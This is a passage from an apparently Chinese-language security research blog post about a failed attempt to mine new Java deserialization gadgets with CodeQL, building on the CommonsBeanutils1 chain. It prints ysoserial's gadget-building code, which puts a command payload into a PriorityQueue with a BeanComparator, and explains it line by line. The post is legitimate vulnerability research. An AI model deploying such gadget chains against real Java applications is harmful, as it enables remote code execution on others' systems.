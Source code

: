 ## 记一次Log4j失败的Gadget挖掘记录



### 前言

&emsp;&emsp; 最开始我在《CodeQL与Shiro550的碰撞》的文章中提出了基于p牛写的依赖shiro1.2.4原生依赖CommonsBeanutils的漏洞gadget挖掘出了更多版本的漏洞gadget。之后我在使用CodeQL研究JNDI的漏洞触发类的挖掘办法，某天晚上玩着手机就突然想到如果我将这个方法用到挖掘漏洞gadget上呢？会有什么效果呢？虽然是一次失败的经历，但让笔者我对挖掘漏洞Gadget有了进一步深刻的理解。



----

### CommonsBeanutils

&emsp;&emsp; 本文尝试都是基于CommonsBeanutils的gadget的基础之上去挖掘新的gadget（对这个gadget非常熟悉的原因。）

首先对CommonsBeanutils1的gadget的进行分析，主要找出那些是可以变动的，那些是不变的点。这段代码是ysoserial中的CommonsBeanutils一个gadget。

```java
public Object getObject(final String command) throws Exception {
		final Object templates = Gadgets.createTemplatesImpl(command);
		final BeanComparator comparator = new BeanComparator("lowestSetBit");
		final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
		queue.add(new BigInteger("1"));
		queue.add(new BigInteger("1"));
	    Reflections.setFieldValue(comparator, "property", "outputProperties");
		final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
		queueArray[0] = templates;
		queueArray[1] = templates;
		return queue;
	}
```



----



#### 逐行代码分析

这行代码是生成Templates命令的

```java
final Object templates = Gadgets.createTemplatesImpl(command);
```

BeanComparator是CommonsBeanutils1的chain的漏洞触发点，也可以是直接**new BeanComparator();** 。P牛提出的基于jdk内置的CommonsBeanutils的gadget chain写法是 **new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);** ，BeanComparator是支持传入Comparator，如果不写就默认调用commons collection中的**ComparableComparator**。这里comparator在整个的gadget chain中是没有任何的调用，所以才能被随意的替换成其他的comparator。

```java
final BeanComparator comparator = new BeanComparator("lowestSetBit");
```

![image-20211102170436950](https://raw.githubusercontent.com/SummerSec/Images/main/summersec//44u04er44ec/44u04er44ec.png)
